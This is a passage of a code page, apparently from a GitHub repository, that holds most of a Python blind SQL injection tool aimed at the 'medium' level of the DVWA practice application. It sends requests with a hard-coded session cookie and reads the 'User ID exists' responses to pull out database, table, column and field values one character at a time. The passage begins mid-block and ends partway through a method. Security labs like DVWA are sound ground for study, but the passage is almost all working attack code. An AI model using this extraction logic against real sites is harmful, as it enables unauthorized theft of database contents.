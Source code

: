```python
                name += '|'
        self.word_name.append(name)
        print('\n==>',self.word_name[word_num])
```

### medium

```python
import requests
import string

class Injection:
    def __init__(self,url):
        self.url = url
        self.s = requests.session()
        self.zifuji = [44,48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 97, 98, 99, 100, 101, 102, 103, 104, 105, 106, 107, 108, 109, 110, 111, 112, 113, 114, 115, 116, 117, 118, 119, 120, 121, 122, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 95, 45, 64, 33, 38, 36]
        self.headers = {
            'Cookie': 'security=medium; PHPSESSID=ms11imgpftrmfcp27rmk9s006c'
        }
    def process(self,yourstr,num1,num2):
        print("[+] Please wait ... {0} [{1}]/[{2}]".format(yourstr,str(num1),str(num2)),end='\r')
    def check(self,text):
        if "User ID exists in the database." in text:
            return True
        elif "User ID is MISSING from the database." in text:
            return False
    def tranhex(self,str1):
        result = '0x'
        for i in str1:
            result += hex(ord(i))[2:]
        return result
    def run(self):
        self.get_itsnum()
        self.get_database_length()
        self.get_database()
        self.get_table_num()
        self.table_length = []
        self.table_name = []
        self.get_table_length()
        self.get_table_name()
        table_name = input('[-] table_name: ')
        self.get_column_num(table_name)
        self.column_length = []
        self.column_name = []
        self.get_column_length(table_name)
        self.get_column_name(table_name)
        column_names = input('[-] column_name: ').split(',')
        self.word_num = 0
        self.get_word_num(table_name,column_names[0])
        self.word_name = []
        self.word_length = []
        for i in range(len(column_names)):
            print(column_names[i])
            self.get_word_length(table_name,column_names[i])
            self.get_word_name(table_name,column_names[i],i)
        
    def get_itsnum(self):
        self.itsnum = 0
        for i in range(1,50):
            self.process('get_itsnum',i,50)
```